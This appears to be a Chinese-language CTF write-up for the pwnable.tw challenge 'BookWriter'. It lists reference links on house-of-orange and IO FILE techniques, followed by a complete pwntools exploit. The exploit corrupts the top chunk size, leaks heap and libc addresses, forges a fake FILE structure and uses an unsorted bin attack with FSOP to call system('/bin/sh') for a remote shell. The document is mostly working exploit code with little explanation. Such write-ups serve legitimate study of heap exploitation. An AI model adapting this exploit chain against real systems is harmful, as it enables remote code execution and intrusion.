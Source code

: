 ```yaml
---
title: 和媳妇一起学Pwn 之 BookWriter
date: 2020-04-04 00:00:00
categories:
- CTF/Pwn
tags: pwnable.tw  
---
```


> 本题总结点较多，之后总结

- 题目地址：[https://pwnable.tw/challenge/#24](https://pwnable.tw/challenge/#24)

## 参考

- [house of orange 漏洞](http://blog.eonew.cn/archives/1093)
- [IO FILE 学习笔记](https://veritas501.space/2017/12/13/IO%20FILE%20%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

- [pwnable.tw 1~10题 writeup](https://veritas501.space/2018/02/21/pwnable.tw%201~10%E9%A2%98%20writeup/)
- [pwnable.tw 11~18题 writeup](https://veritas501.space/2018/03/04/pwnable.tw%2011~18%E9%A2%98%20writeup/)

- [pwnable.tw部分writeup(不定期更新)](https://0xffff.one/d/410)
- [pwnable.tw部分writeup(不定期更新)_Vol.2](https://0xffff.one/d/469)

- [BookWriter Writeup](http://weaponx.site/2018/06/11/BookWriter-Writeup-pwnable-tw/)
- [pwnable tw bookwriter writeup](https://sunichi.github.io/2018/07/02/pwnable-tw-bookwriter/)
- [BookWriter 解题思路](http://p4nda.top/2017/12/15/pwnable-tw-bookwriter/)
- [pwnable.tw bookwriter writeup – house of orange 的巧妙利用](http://blog.eonew.cn/archives/1140)
- [pwnable.tw中的bookwriter](https://www.lyyl.online/2019/10/08/pwnable-tw%E4%B8%AD%E7%9A%84bookwriter/)
- [从BookWriter看house_of_orange原理](https://bbs.pediy.com/thread-223334.htm)
- [Pwnable.tw之BookWriter](https://bbs.pediy.com/thread-226694.htm)


## exp

```python
from pwn import *

context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./bookwriter")
libc   = ELF("./libc_64.so.6")
io     = remote("chall.pwnable.tw",10304)

uu64        = lambda data          :  u64(data.ljust(8, b'\0'))
sla         = lambda delim,data    :  (io.sendlineafter(delim, data))
sa          = lambda delim,data    :  (io.sendafter(delim, data))
start       = lambda author        :  (sla("Author :",author))
add         = lambda size,content  :  (sla("choice :","1"),sla("page :",str(size)),sa("Content :",content))
view        = lambda num           :  (sla("choice :","2"),sla("page :",str(num)))
edit        = lambda num,content   :  (sla("choice :","3"),sla("page :",str(num)),sla("Content:",content))
show        = lambda               :  (sla("choice :","4"))

# fill author  
start("x"*60+'xuan')

# overlap and modify top chunk size 
add(0x18,'a')
edit(0,'b'*0x18)
edit(0,'\x00'*0x18+'\xe1\x0f')

# leak heap
show();io.recvuntil("xuan")
heap_addr = uu64(io.recvuntil("\n")[:-1])
sla(") ",'0')

# move top chunk to unsorted bin
add(0x1000,'a')
for i in range(7):
    add(0x18,'xuanxuan')

# leak libc
view(2);io.recvuntil("xuanxuan")
libc.address = uu64(io.readline()[:-1])-0x3c4188

# make fake file 
data = "\x00"*(0x20*7+0x10)
payload  = "/bin/sh\x00" + p64(0x61) 
payload += p64(0) + p64(libc.symbols['_IO_list_all']-0x10) 
payload += p64(0) + p64(1)
payload = payload.ljust(0xd8, "\x00")
payload += p64(heap_addr + 0x20*7+0x10 + 0xd8 + 0x8)+p64(libc.symbols['system'])*4

# use unsorted bin attack and FSOP to getshell
edit(0,data+payload)
sla("choice :","1");sla("page :",str(0x10))
io.interactive()
```